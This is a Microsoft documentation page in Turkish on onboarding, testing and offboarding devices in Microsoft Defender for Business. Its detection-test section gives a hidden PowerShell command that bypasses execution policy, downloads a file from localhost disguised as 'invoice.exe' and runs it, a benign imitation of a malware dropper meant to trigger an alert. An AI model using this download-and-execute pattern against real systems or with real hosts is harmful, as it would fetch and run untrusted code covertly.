 ```yaml
---
title: Kuruluşunuzun cihazlarını İş için Microsoft Defender ekleme
description: Kuruluşunuzun cihazlarını İş için Microsoft Defender ekleme
search.appverid: MET150
author: denisebmsft
ms.author: deniseb
manager: dansimp
audience: Admin
ms.topic: how-to
ms.service: o365-administration
ms.localizationpriority: high
ms.reviewer: shlomiakirav
f1.keywords: NOCSH
ms.collection:
- SMB
- M365-security-compliance
ms.openlocfilehash: 7d86b04b1c3883bc5b3da0e429dbbddd8275622f
ms.sourcegitcommit: d1b60ed9a11f5e6e35fbaf30ecaeb9dfd6dd197d
ms.translationtype: MT
ms.contentlocale: tr-TR
ms.lasthandoff: 06/29/2022
ms.locfileid: "66489524"
---
```

# <a name="onboard-enrolled-devices-to-microsoft-defender-for-business"></a>Kayıtlı cihazları İş için Microsoft Defender ekleme

Cihazları kaydettiğinize göre, yeni nesil koruma (virüsten koruma, kötü amaçlı yazılımdan koruma ve bulut tabanlı koruma), güvenlik duvarı koruması, web içeriği filtreleme ve daha fazlasını uygulamak için cihazları İş için Microsoft Defender eklemelisiniz. 

Cihazları eklemek için çeşitli seçenekler arasından seçim yapabilirsiniz:

- [Microsoft Endpoint Manager'de zaten kayıtlı olan Windows cihazları için otomatik ekleme kullanma](#use-automatic-onboarding-for-windows-devices-that-are-already-enrolled-in-microsoft-endpoint-manager)

- [Windows ve macOS cihazlarını eklemek için yerel betik kullanma](#use-a-local-script-to-onboard-windows-and-macos-devices)

- Cihazları (Windows, macOS, iOS ve Android) [kaydetmek için Endpoint Manager kullanın](#use-microsoft-endpoint-manager-to-enroll-devices) ve ardından bu cihazlara İş için Defender ilkeleri uygulayın

Bu makale şunları da içerir:

- [Windows cihazında algılama testi çalıştırma](#run-a-detection-test-on-a-windows-device)

- [Cihazları aşamalı olarak ekleme](#onboard-devices-gradually)

- Bir [cihaz](#offboard-a-device) değiştirilirse veya biri kuruluştan ayrılırsa cihazı çıkarma

> [!IMPORTANT]
> Bir sorun oluşursa ve ekleme işleminiz başarısız olursa sorun [giderme İş için Microsoft Defender](../security/defender-business/mdb-troubleshooting.yml) bakın.

## <a name="use-automatic-onboarding-for-windows-devices-that-are-already-enrolled-in-microsoft-endpoint-manager"></a>Microsoft Endpoint Manager'de zaten kayıtlı olan Windows cihazları için otomatik ekleme kullanma

Otomatik ekleme seçeneği yalnızca Windows cihazları için geçerlidir. Aşağıdaki koşullar karşılanırsa otomatik ekleme kullanılabilir:

- Kuruluşunuz, İş için Defender'ı (Microsoft 365 İş Ekstra müşterileri) almadan önce Microsoft Intune'da zaten Microsoft Endpoint Manager, Microsoft Intune veya Mobil Cihaz Yönetimi (MDM) kullanıyordu zaten Microsoft Intune var).

- Endpoint Manager kayıtlı Windows cihazlarınız zaten var.

Windows cihazları zaten Endpoint Manager kayıtlıysa, siz İş için Defender'ı ayarlama ve yapılandırma sürecindeyken İş için Defender bu cihazları algılar. Windows cihazlarınızın tümü veya bazıları için otomatik ekleme kullanmak isteyip istemediğiniz sorulur. Tüm Windows cihazlarını aynı anda ekleyebilir veya başlamak için belirli cihazları seçebilir ve daha sonra daha fazla cihaz ekleyebilirsiniz.

> [!TIP]
> "Tüm cihazlar kaydedildi" seçeneğini belirlemenizi öneririz. Bu şekilde, Windows cihazları daha sonra Endpoint Manager kaydedildiğinde otomatik olarak İş için Defender'a eklenir.
Otomatik ekleme hakkında daha fazla bilgi edinmek için bkz. [İş için Microsoft Defender ayarlamak için sihirbazı kullanma](../security/defender-business/mdb-use-wizard.md) konusundaki 2. Adım.

## <a name="use-a-local-script-to-onboard-windows-and-macos-devices"></a>Windows ve macOS cihazlarını eklemek için yerel betik kullanma

Windows ve Mac cihazlarını eklemek için yerel bir betik kullanabilirsiniz. Ekleme betiğini bir cihazda çalıştırdığınızda, Azure Active Directory ile bir güven oluşturur (bu güven yoksa), cihazı Microsoft Endpoint Manager'a kaydeder (henüz kaydedilmemişse) ve ardından cihazı İş için Defender'a ekler. Bu yöntem, İş için Defender'a cihaz ekleme için kullanışlıdır. Aynı anda en fazla 10 cihaz ekleyebilirsiniz.

1. Microsoft 365 Defender portalına ()[https://security.microsoft.com](https://security.microsoft.com) gidin ve oturum açın.

2. Gezinti bölmesinde **Ayarlar** > **Uç Noktaları'nı** seçin ve ardından **Cihaz yönetimi'nin** altında **Ekleme'yi** seçin.

3. **Windows 10 ve 11** veya **macOS** gibi bir işletim sistemi seçin ve ardından **Dağıtım yöntemi** bölümünde **Yerel betik'i** seçin. 

4. **Ekleme paketini indir'i** seçin. Ekleme paketini çıkarılabilir bir sürücüye kaydetmenizi öneririz. ( **macOS'yi** seçtiyseniz **yükleme paketini indir'i** de seçin ve çıkarılabilir cihazınıza kaydedin.)

5. Aşağıdaki kılavuzu kullanın:

   - Windows cihazları: [Yerel betik kullanarak Windows cihazları ekleme](../security/defender-endpoint/configure-endpoints-script.md#onboard-windows-devices-using-a-local-script)

   - macOS cihazları: [macOS'ta Uç Nokta için Microsoft Defender için el ile dağıtım](../security/defender-endpoint/mac-install-manually.md#download-installation-and-onboarding-packages)

## <a name="use-microsoft-endpoint-manager-to-enroll-devices"></a>Cihazları kaydetmek için Microsoft Endpoint Manager kullanma

Bir cihazı kaydetmek için, cihazı kendiniz kaydedin veya kullanıcılarınızın şirket portalında oturum açmasını ve gerekli uygulamaları kaydedip yüklemesini sağlayın. 

İş için Defender'ı almadan önce zaten Endpoint Manager (Microsoft Intune ve Mobil Cihaz Yönetimi dahil) kullanıyorsanız, kuruluşunuzun cihazlarını eklemek için Endpoint Manager kullanmaya devam edebilirsiniz. Endpoint Manager ile, iOS ve Android cihazlar da dahil olmak üzere bilgisayarları, tabletleri ve telefonları ekleyebilirsiniz.

Bkz[. Microsoft Intune'da cihaz kaydı](/mem/intune/enrollment/device-enrollment). 

## <a name="run-a-detection-test-on-a-windows-device"></a>Windows cihazında algılama testi çalıştırma

Windows cihazlarını İş için Defender'a ekledikten sonra, her şeyin düzgün çalıştığından emin olmak için bir Windows cihazında algılama testi çalıştırabilirsiniz.

1. Windows cihazında bir klasör oluşturun: `C:\test-MDATP-test`.

2. Yönetici olarak Komut İstemi'ni açın.

3. Komut İstemi penceresinde aşağıdaki PowerShell komutunu çalıştırın:

   ```powershell
   powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference = 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-MDATP-test\\invoice.exe');Start-Process 'C:\\test-MDATP-test\\invoice.exe'
   ```

Komut çalıştırıldıktan sonra Komut İstemi penceresi otomatik olarak kapanır. Başarılı olursa algılama testi tamamlandı olarak işaretlenir ve yeni eklenen cihaz için Microsoft 365 Defender portalında ([https://security.microsoft.com](https://security.microsoft.com)) yaklaşık on dakika içinde yeni bir uyarı görünür.

## <a name="onboard-devices-gradually"></a>Cihazları aşamalı olarak ekleme

Cihazları *aşamalı cihaz ekleme* olarak adlandırdığımız aşamalara eklemeyi tercih ediyorsanız şu adımları izleyin: 

1. Eklemek istediğiniz bir cihaz kümesini belirleyin.

2. Microsoft 365 Defender portalına ()[https://security.microsoft.com](https://security.microsoft.com) gidin ve oturum açın.

3. Gezinti bölmesinde **Ayarlar** > **Uç Noktaları'nı** seçin ve ardından **Cihaz yönetimi'nin** altında **Ekleme'yi** seçin.

4. bir işletim sistemi (**Windows 10 ve 11 gibi)** seçin ve ardından bir ekleme yöntemi (**Yerel betik** gibi) seçin. Seçtiğiniz yöntem için sağlanan yönergeleri izleyin.

5. Eklemek istediğiniz her cihaz kümesi için bu işlemi yineleyin. 

> [!TIP]
> Cihazları her eklediğinizde aynı ekleme paketini kullanmanız gerekmez. Örneğin, bazı cihazları eklemek için yerel bir betik kullanabilir ve daha sonra daha fazla cihaz eklemek için başka bir yöntem seçebilirsiniz.

## <a name="offboard-a-device"></a>Cihazı çıkarma

Bir cihazı boşaltmak istiyorsanız aşağıdaki yordamlardan birini kullanın:

1. Gezinti bölmesinde **Ayarlar'ı** ve ardından **Uç Noktalar'ı** seçin.

1. **Cihaz yönetimi'nin** altında **Çıkarma'yı** seçin.

1. **Windows 10 ve 11** gibi bir işletim sistemi seçin ve ardından **Cihazı kullanıma alma** altında Dağıtım **yöntemi** bölümünde **Yerel betik'i** seçin. 

1. Onay ekranında bilgileri gözden geçirin ve ardından devam etmek için **İndir'i** seçin.

1. **Çıkarma paketini indir'i** seçin. Çıkarma paketini çıkarılabilir bir sürücüye kaydetmenizi öneririz.

1. Betiği, gemiden çıkarmak istediğiniz her cihazda çalıştırın. Bu görevle ilgili yardıma mı ihtiyacınız var? Aşağıdaki kaynaklara bakın:   

   - Windows cihazları: [Yerel betik kullanarak Windows cihazlarını](../security/defender-endpoint/configure-endpoints-script.md#offboard-devices-using-a-local-script) çıkarma
   
   - macOS cihazları: [macOS'ta kaldırma](../security/defender-endpoint/mac-resources.md#uninstalling)

> [!IMPORTANT]
> Cihazı kullanıma almak, cihazların İş için Defender'a veri göndermeyi durdurmasına neden olur. Ancak, çıkarmadan önce alınan veriler altı (6) aya kadar saklanır.

## <a name="next-objective"></a>Sonraki hedef

[Windows cihazlarınız için korumayı ayarlayın](m365bp-protection-settings-for-windows-10-devices.md).
